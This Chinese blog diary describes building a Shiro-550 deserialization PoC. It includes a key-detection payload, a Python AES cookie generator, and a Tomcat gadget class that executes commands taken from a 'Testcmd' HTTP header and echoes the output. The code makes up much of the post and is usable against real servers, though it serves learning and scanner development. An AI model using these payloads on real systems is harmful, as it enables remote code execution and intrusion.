










# Shiro-550 PoC编写日记

深刻认识到不会java搞这类poc的困难，只能做一个无情的搬砖机器。 

目标是编写Pocsuite3 python版本的Shiro-550 PoC，最好不要依赖其他东西。 

本文没有新奇的观点，只是记录日常 =_= 

##  Shiro识别 

看到@pmiaowu开源的burp shiro检测插件 https://github.com/pmiaowu/BurpShiroPassiveScan 



看了下源码，主要有三种判断方式 

  1. 原始cookie key带了rememberMe 
  2. 原始请求返回cookie中value带有deleteMe 
  3. 以上条件都不满足时，发送cookie`rememberMe=1`


##  检测Shiro key 

l1nk3r师傅 的 基于原生shiro框架 检测方法 

  * https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ 


简述下如何不依赖java环境来检测poc。 
```java 
import org.apache.shiro.subject.SimplePrincipalCollection;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class ss1 {
    public static void main(String args[]) throws IOException {
        System.out.println("Hellow ");
        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload"));
        obj.writeObject(simplePrincipalCollection);
        obj.close();

    }
}

```

可得到生成的反序列二进制payload(最好使用jdk6来编译，能够兼容之后的版本) 
``` 
b'\xac\xed\x00\x05sr\x002org.apache.shiro.subject.SimplePrincipalCollection\xa8\x7fX%\xc6\xa3\x08J\x03\x00\x01L\x00\x0frealmPrincipalst\x00\x0fLjava/util/Map;xppw\x01\x00x'

```

将这段payload内置到poc里即可。 

通过python函数生成最终检测payload 
```python 
def generator2(key, bb: bytes):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(bb)
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

```

其中key是shiro需要检测的key，bb是生成的payload,当key正确时，不会返回deleteMe 





##  回显payload 

一开始看的是宽字节安全的burp插件:https://github.com/potats0/shiroPoc 

但在本地环境下测试没有成功，之后猜测可能是gadgets或java版本的问题 

看他的exploitType代码 



类似于java的汇编代码？看不懂就没再看了。 

然后在GitHub上找到一个开源的exp https://github.com/Ares-X/shiro-exploit/blob/master/shiro.py 

它将gadget base64之后硬编码到了python中，正好符合我的需求。 



经过测试用`CommonsCollections1`就可以在我本地环境复现了。 

到这里就可以写poc了，但我还想看看这些硬编码的payload是怎么来的。 

##  更细节 

那些硬编码的文件是反序列化的文件，我想找到Tomcat的通用回显的源码。@longofo告诉我可以通过`CA FE BA BE`(cafebaby)来确定class的特征，将它和后面的数据保存为class文件。 



然后拖到idea反编译后就能看到源码了 
```java 
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class FooDDl2ZFf8Y extends AbstractTranslet {
    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Integer(0), new Integer(var1.length));
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

    }

    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while(var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }

    public FooDDl2ZFf8Y() throws Exception {
        boolean var4 = false;
        Thread[] var5 = (Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads");

        for(int var6 = 0; var6 < var5.length; ++var6) {
            Thread var7 = var5[var6];
            if (var7 != null) {
                String var3 = var7.getName();
                if (!var3.contains("exec") && var3.contains("http")) {
                    Object var1 = getFV(var7, "target");
                    if (var1 instanceof Runnable) {
                        try {
                            var1 = getFV(getFV(getFV(var1, "this$0"), "handler"), "global");
                        } catch (Exception var13) {
                            continue;
                        }

                        List var9 = (List)getFV(var1, "processors");

                        for(int var10 = 0; var10 < var9.size(); ++var10) {
                            Object var11 = var9.get(var10);
                            var1 = getFV(var11, "req");
                            Object var2 = var1.getClass().getMethod("getResponse").invoke(var1);
                            var3 = (String)var1.getClass().getMethod("getHeader", String.class).invoke(var1, "Testecho");
                            if (var3 != null && !var3.isEmpty()) {
                                var2.getClass().getMethod("setStatus", Integer.TYPE).invoke(var2, new Integer(200));
                                var2.getClass().getMethod("addHeader", String.class, String.class).invoke(var2, "Testecho", var3);
                                var4 = true;
                            }

                            var3 = (String)var1.getClass().getMethod("getHeader", String.class).invoke(var1, "Testcmd");
                            if (var3 != null && !var3.isEmpty()) {
                                var2.getClass().getMethod("setStatus", Integer.TYPE).invoke(var2, new Integer(200));
                                String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", var3} : new String[]{"/bin/sh", "-c", var3};
                                writeBody(var2, (new Scanner((new ProcessBuilder(var12)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                var4 = true;
                            }

                            if ((var3 == null || var3.isEmpty()) && var4) {
                                writeBody(var2, System.getProperties().toString().getBytes());
                            }

                            if (var4) {
                                break;
                            }
                        }

                        if (var4) {
                            break;
                        }
                    }
                }
            }
        }

    }
}

```

就算解出了源码，看的也不是太懂，可能是根据java的各种魔法来实现的吧 - = 于是就转而开始写poc了。 

没想到写完poc的第二天，xray的作者就给出检测细节和源码。 

  * https://koalr.me/post/shiro-lou-dong-jian-ce/ 

  * https://github.com/frohoff/ysoserial 


通过比对源码:https://github.com/frohoff/ysoserial/compare/master...zema1:master 

可以找到tomcat的全版本回显的payload 
```java 
public static Object createTemplatesTomcatEcho() throws Exception {
        if (Boolean.parseBoolean(System.getProperty("properXalan", "false"))) {
            return createTemplatesImplEcho(
                Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
                Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
                Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
        }

        return createTemplatesImplEcho(TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
    }

    // Tomcat 全版本 payload，测试通过 tomcat6,7,8,9
    // 给请求添加 Testecho: 123，将在响应 header 看到 Testecho: 123，可以用与可靠漏洞的漏洞检测
    // 给请求添加 Testcmd: id 会执行 id 命令并将回显写在响应 body 中
    public static <T> T createTemplatesImplEcho(Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory)
        throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        CtClass clazz;
        clazz = pool.makeClass("ysoserial.Pwner" + System.nanoTime());
        if (clazz.getDeclaredConstructors().length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addMethod(CtMethod.make("private static void writeBody(Object resp, byte[] bs) throws Exception {\n" +
            "    Object o;\n" +
            "    Class clazz;\n" +
            "    try {\n" +
            "        clazz = Class.forName(\"org.apache.tomcat.util.buf.ByteChunk\");\n" +
            "        o = clazz.newInstance();\n" +
            "        clazz.getDeclaredMethod(\"setBytes\", new Class[]{byte[].class, int.class, int.class}).invoke(o, new Object[]{bs, new Integer(0), new Integer(bs.length)});\n" +
            "        resp.getClass().getMethod(\"doWrite\", new Class[]{clazz}).invoke(resp, new Object[]{o});\n" +
            "    } catch (ClassNotFoundException e) {\n" +
            "        clazz = Class.forName(\"java.nio.ByteBuffer\");\n" +
            "        o = clazz.getDeclaredMethod(\"wrap\", new Class[]{byte[].class}).invoke(clazz, new Object[]{bs});\n" +
            "        resp.getClass().getMethod(\"doWrite\", new Class[]{clazz}).invoke(resp, new Object[]{o});\n" +
            "    } catch (NoSuchMethodException e) {\n" +
            "        clazz = Class.forName(\"java.nio.ByteBuffer\");\n" +
            "        o = clazz.getDeclaredMethod(\"wrap\", new Class[]{byte[].class}).invoke(clazz, new Object[]{bs});\n" +
            "        resp.getClass().getMethod(\"doWrite\", new Class[]{clazz}).invoke(resp, new Object[]{o});\n" +
            "    }\n" +
            "}", clazz));
        clazz.addMethod(CtMethod.make("private static Object getFV(Object o, String s) throws Exception {\n" +
            "    java.lang.reflect.Field f = null;\n" +
            "    Class clazz = o.getClass();\n" +
            "    while (clazz != Object.class) {\n" +
            "        try {\n" +
            "            f = clazz.getDeclaredField(s);\n" +
            "            break;\n" +
            "        } catch (NoSuchFieldException e) {\n" +
            "            clazz = clazz.getSuperclass();\n" +
            "        }\n" +
            "    }\n" +
            "    if (f == null) {\n" +
            "        throw new NoSuchFieldException(s);\n" +
            "    }\n" +
            "    f.setAccessible(true);\n" +
            "    return f.get(o);\n" +
            "}\n", clazz));
        clazz.addConstructor(CtNewConstructor.make("public TomcatEcho() throws Exception {\n" +
            "    Object o;\n" +
            "    Object resp;\n" +
            "    String s;\n" +
            "    boolean done = false;\n" +
            "    Thread[] ts = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), \"threads\");\n" +
            "    for (int i = 0; i < ts.length; i++) {\n" +
            "        Thread t = ts[i];\n" +
            "        if (t == null) {\n" +
            "            continue;\n" +
            "        }\n" +
            "        s = t.getName();\n" +
            "        if (!s.contains(\"exec\") && s.contains(\"http\")) {\n" +
            "            o = getFV(t, \"target\");\n" +
            "            if (!(o instanceof Runnable)) {\n" +
            "                continue;\n" +
            "            }\n" +
            "\n" +
            "            try {\n" +
            "                o = getFV(getFV(getFV(o, \"this$0\"), \"handler\"), \"global\");\n" +
            "            } catch (Exception e) {\n" +
            "                continue;\n" +
            "            }\n" +
            "\n" +
            "            java.util.List ps = (java.util.List) getFV(o, \"processors\");\n" +
            "            for (int j = 0; j < ps.size(); j++) {\n" +
            "                Object p = ps.get(j);\n" +
            "                o = getFV(p, \"req\");\n" +
            "                resp = o.getClass().getMethod(\"getResponse\", new Class[0]).invoke(o, new Object[0]);\n" +
            "                s = (String) o.getClass().getMethod(\"getHeader\", new Class[]{String.class}).invoke(o, new Object[]{\"Testecho\"});\n" +
            "                if (s != null && !s.isEmpty()) {\n" +
            "                    resp.getClass().getMethod(\"setStatus\", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});\n" +
            "                    resp.getClass().getMethod(\"addHeader\", new Class[]{String.class, String.class}).invoke(resp, new Object[]{\"Testecho\", s});\n" +
            "                    done = true;\n" +
            "                }\n" +
            "                s = (String) o.getClass().getMethod(\"getHeader\", new Class[]{String.class}).invoke(o, new Object[]{\"Testcmd\"});\n" +
            "                if (s != null && !s.isEmpty()) {\n" +
            "                    resp.getClass().getMethod(\"setStatus\", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});\n" +
            "                    String[] cmd = System.getProperty(\"os.name\").toLowerCase().contains(\"window\") ? new String[]{\"cmd.exe\", \"/c\", s} : new String[]{\"/bin/sh\", \"-c\", s};\n" +
            "                    writeBody(resp, new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes());\n" +
            "                    done = true;\n" +
            "                }\n" +
            "                if ((s == null || s.isEmpty()) && done) {\n" +
            "                    writeBody(resp, System.getProperties().toString().getBytes());\n" +
            "                }\n" +
            "\n" +
            "                if (done) {\n" +
            "                    break;\n" +
            "                }\n" +
            "            }\n" +
            "            if (done) {\n" +
            "                break;\n" +
            "            }\n" +
            "        }\n" +
            "    }\n" +
            "}", clazz));

        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{
            classBytes,
//            classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }

```

和一些特别的链 

> ysoserial 中的 `CommonsCollections4` 只能用于 CC4.0 版本，我把这个利用链进行了改进使其支持了 CC3 和 CC4 两个版本，形成了上面说的 K1/K2 两条链，这两条链就是我们处理 Shiro 这个环境的秘密武器。经过这些准备，我们已经从手无缚鸡之力的书生变为了身法矫健的少林武僧，可以直击敌方咽喉，一举拿下目标。万事具备，只欠东风。 

至于为什么要那么写，可能也是因为某种魔法，我暂时还不明白。 

##  PoC演示 

一路下来迷迷糊糊啥也不明白真实太菜了，只能在一些大佬的肩膀上搬搬砖这样子了。 

PoC集成了识别，检测key，命令执行回显以及shell反弹的操作。 

检测识别key 



攻击模式执行任意命令 



shell反连 



最后也顺便给w13scan - 被动扫描器增加了一份Shiro插件。 



感谢看完全程，不说了，学习java去。 


